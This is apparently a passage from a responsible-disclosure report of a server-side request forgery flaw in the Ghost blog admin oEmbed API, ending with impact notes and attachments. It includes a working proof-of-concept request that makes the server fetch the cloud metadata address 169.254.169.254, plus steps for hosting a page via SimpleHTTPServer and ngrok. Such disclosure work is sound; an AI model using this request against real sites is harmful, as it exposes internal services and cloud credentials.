 And serve this page by the Python SimpleHTTPServer module:
 
```python -m SimpleHTTPServer 8000```

If your target is located in not your local network you can use ngrok library for creating a tunnel to your HTML page.
 
And send the following request with publisher Cookies
```
GET /ghost/api/v3/admin/oembed/?url=http://169.254.169.254/metadata/v1.json&type=embed HTTP/1.1
Host: YOUR_WEBSITE
Connection: keep-alive
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
X-Ghost-Version: 3.5
App-Pragma: no-cache
User-Agent: Mozilla/5.0
Content-Type: application/json; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: en-US;
Cookie: ghost-admin-api-session=YOUR_SESSION
```
And we finally receive a response from the internal DigitalOcean service with my Droplet MetaData. 
SSRF vulnerability is working! 🥳

F713098

## Supporting Material/References:
- OS: macOS current
- Node.js: 10.15.2
- NPM: 6.11.3

# Wrap up

- I contacted the maintainer to let them know: Yes
- I opened an issue in the related repository: No

## Impact

Attacker with publisher role (editor, author, contributor, administrator) in a blog may be able to leverage this to make arbitrary GET requests in a Ghost Blog instance's to internal / external network.

## Attachments
- 2020-02-11_17.06.04.jpg
- 2020-02-11_17.06.41.jpg
- 2020-02-11_17.56.17.jpg
- 2020-02-11_17.07.09.jpg
